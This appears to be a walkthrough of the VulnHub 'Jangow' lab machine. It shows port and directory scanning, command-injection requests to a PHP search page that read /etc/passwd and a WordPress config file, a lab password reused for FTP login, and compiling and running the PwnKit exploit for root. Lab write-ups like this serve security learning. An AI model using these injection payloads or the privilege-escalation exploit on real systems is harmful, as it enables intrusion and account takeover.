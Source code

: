 # Jangow Machine
Machine Link: https://www.vulnhub.com/entry/jangow-101,754/

Starting with nmap scan

```
sudo nmap -T4 -p- -A 192.168.0.105
```

![nmap_scan](https://github.com/moataz-bellah/writeups/assets/47069499/779ba276-9017-476f-a4ae-87d74e3f682b)

We have 2 ports open ftp, http. I started with ftp and tried to login as anonymous, but i failed. Moving to http service and make some directory busting.

```
dirb http://192.168.0.105
```

I found one directory "site", let's go see it

![site](https://github.com/moataz-bellah/writeups/assets/47069499/27403bf4-ce2f-48b0-8a6c-9c6c820a7fa6)

It doesn't have too much, but there is "buscar" page that seems to be vulnerable to command injection. I tried to inject OS command like "ls".

```
http://192.168.0.105/site/busque.php?buscar=ls
```

![OS_Injectioni](https://github.com/moataz-bellah/writeups/assets/47069499/c5cd6035-67a6-451b-b5ed-f3c3b58133c7)

Great, we have remote code execution, we need to leverage that and get reverse shell. I tried many shells, but i realized this machine has a problem i can't figure out. I looked for more interesting
files and found wordpress/config.php

```
http://192.168.0.105/site/busque.php?buscar=cat wordpress/config.php
```

![config](https://github.com/moataz-bellah/writeups/assets/47069499/1c94e351-1e1f-4fc1-af2f-53867cd0e85e)

We have mysql credentials. I tried use it with ftp, but it didn't work. At least, we have a password. Let's try it with another user. Let's check /etc/passwd to see if there are any users

```
http://192.168.0.105/site/busque.php?buscar=cat+/etc/passwd
```




I found "jangow01". Let's go login to ftp with username: "jangow01" password: "abygurl69". Great it worked. I tried to upload a php shell,but it is now allowed to upload any files in /var/www.
I had to login inside virtual box and it worked.

# Privilege Escalation

Surfing the internet, i found that link https://github.com/ly4k/PwnKit/blob/main/PwnKit.c. The machine's kernal has vulnerability can lead to privilege escalation. Using that link, i downloaded the exploit.
compile it

```
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```
We can upload it using ftp.

```
cd /home/jangow01
put Pwnkit
```

On the machine we have to make the file executable

```
chmod +x PwnKit
```

```
./PwnKit
```
Great we root now















